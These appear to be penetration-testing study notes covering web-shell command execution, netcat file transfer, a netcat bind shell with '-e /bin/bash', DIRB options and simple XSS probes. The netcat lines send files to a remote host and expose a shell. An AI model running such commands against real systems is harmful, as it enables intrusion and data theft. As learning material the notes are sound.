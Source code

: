 After uploading this shell, we can go to the browser and use "?cmd=<command>" we want.

## NC

we can send files using netcat also:
Receiver
```bash
nc -lvnp <port> > output_file.txt
```

Sender
```bash
echo 'hello' | nc -v <ip> <port>
or
cat <file_u_Wanna_send> | nc -v <ip> <port>
```

## Bind Shell with netcat:

in the server/listener:
```bash
nc -lvnp <port> -e /bin/bash
```

in the client/sender:
```bash
nc -v <ip> <port>
```

## Dictionary-based Enumeration
common backup file names are: .bak, .old, .txt and .xxx

## DIRB

```bash
-x <file of extensions>
-X "extensions.bak, extensions.xxx"
-z delay in miliseconds
-o output a file
-p proxy
-H "set a header"
-u basic authentication "user:password"
-c "set a cookie"
-a "set a agent user"
```

## XSS
reflective > can execute commands and get answer of output in the browser
stored > can send files to the server / get cookies for others users and steal sessions

find a user input field:
```bash
- try to execute a html command like <h1> teste </h1>
- try to execute JS command like <script>alert('XSS');</script>
```
